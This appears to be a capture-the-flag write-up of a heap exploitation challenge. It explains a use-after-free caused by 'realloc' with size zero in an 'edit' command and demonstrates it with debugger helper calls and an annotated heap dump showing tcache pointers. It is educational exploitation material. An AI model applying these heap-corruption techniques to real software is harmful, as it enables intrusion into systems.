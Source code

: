 

### Comment

This exploit was crazy to develop. Every time I got to the next step, I
had to go back and completely rearchitect the previous one, moving
around blocks, trying different size bins. It would be impossible for me
to show all these steps in this post, but rather, I'll try to walk
through the different goals accomplished in the finished script and show
how the script is used to manipulate the heap to do what I need. But
it's worth adding that the first time I got a libc address onto the
heap, my code looked totally different. When I got to the next step, I
would use the same general techniques, but I needed to completely rework
the spacing and sizing of the different bins to accomplish both the
goals I'd already achieved and the next one.

### Vulnerability

#### Description

The vulnerability here is with `realloc` in the `edit` command, and how
it reacts based on the current size and the new size:

  Size Comparison                          Action
  ---------------------------------------- --------------------------------------------------------------------------------------------------------------
  new_size == 0                            `free(buffer)`, return null
  new_size \> 0 && new_size \< orig_size   Break into two chunks, returning same address with smaller chunk, and leaving free chunk at end of old chunk
  new_size \> 0 && new_size \> orig_size   Free old chunk, allocate a new chunk for larger size, and return that address.

The code above checks if the return is null, but then just prints a
message and doesn't change the stored pointer. This leaves the user with
a pointer into freed memory, which is bad.

#### Example

To see this, I'll run the following:



    (Pdb) add('1', 0x50)
    (Pdb) add('2', 0x50)
    (Pdb) rm('1')
    (Pdb) edit('2', 0)



That leaves the following (`<--` added by me):



    -----------------------------------
    [0x0000000000000000]         : (null)
    [0x000055555555c2c0] 2       : `UUUU                        <-- still have pointer to chunk2
    -----------------------------------
    0x55555555c250: 0x0000000000000000      0x0000000000000061  <-- freed chunk 1
    0x55555555c260: 0x0000000000000000      0x000055555555c010  <-- tcache pointer null, key
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000000
    0x55555555c290: 0x0000000000000000      0x0000000000000000
    0x55555555c2a0: 0x0000000000000000      0x0000000000000000
    0x55555555c2b0: 0x0000000000000000      0x0000000000000061  <-- freed chunk 2
    0x55555555c2c0: 0x000055555555c260      0x000055555555c010  <-- tcache pointer to freed 1, key
    0x55555555c2d0: 0x0000000000000000      0x0000000000000000
    0x55555555c2e0: 0x0000000000000000      0x0000000000000000
    0x55555555c2f0: 0x0000000000000000      0x0000000000000000
    0x55555555c300: 0x0000000000000000      0x0000000000000000